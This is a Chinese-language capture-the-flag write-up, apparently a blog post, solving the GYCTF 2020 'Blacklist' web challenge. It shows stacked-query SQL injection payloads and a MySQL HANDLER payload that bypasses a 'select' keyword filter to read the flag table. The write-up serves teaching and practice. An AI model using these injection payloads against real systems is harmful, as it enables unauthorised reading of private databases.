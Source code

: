 ```yaml
---
author: 
  name: Zephyr
title: GYCTF 2020 Blacklist
date: 2022-7-16 09:31:25
permalink: /pages/2e1547494524d1ca
tags: 
  - buuctf
  - web
  - SQLInject
---
```


# GYCTF 2020 Blacklist

## 题目分析

首先看一下题目，很普通的一个查询页面：

![GYCTF_2020_Blacklist1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist1.png)

输入2a后返回以下页面，测试后是单引号字符型注入

![GYCTF_2020_Blacklist2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist2.png)

常规猜字段，字段数为2

![GYCTF_2020_Blacklist3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist3.png)

尝试联合注入`1' union select 1,2#`,提示被过滤了

![GYCTF_2020_Blacklist4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist4.png)

后续尝试报错注入，但过滤了很多东西，没试出结果，不过测试出了show可用，并且堆叠注入也可用

![GYCTF_2020_Blacklist5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist5.png)

查表`1';show tables;`

![GYCTF_2020_Blacklist6](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist6.png)

查FlagHere表中的列`1';show columns from FlagHere;`

![GYCTF_2020_Blacklist7](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist7.png)



## 思路整理

- select关键字被过滤了无法使用
- flag所在的表名、列名已知
- 需要用其他函数或办法代替select查询出数据

## Handler语法

### 背景

- handler语句，一行一行的浏览一个表中的数据
- handler语句并不具备select语句的所有功能。
- mysql专用的语句，并没有包含到SQL标准中。
- handler语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

### 语法

```mysql
HANDLER table_name OPEN //打开一张表，无返回结果，实际上这里声明了一个名为table_nam的句柄
```

```mysql
HANDLER table_name READ FIRST //获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果
```

```mysql
HANDLER table_name CLOSE //关闭打开的句柄
```

```mysql
HANDLER table_name READ index_name = value //通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览
```

## Payload

回到本题，所以构造Payload如下：

```
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
```

即可获得flag

![GYCTF_2020_Blacklist8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist8.png)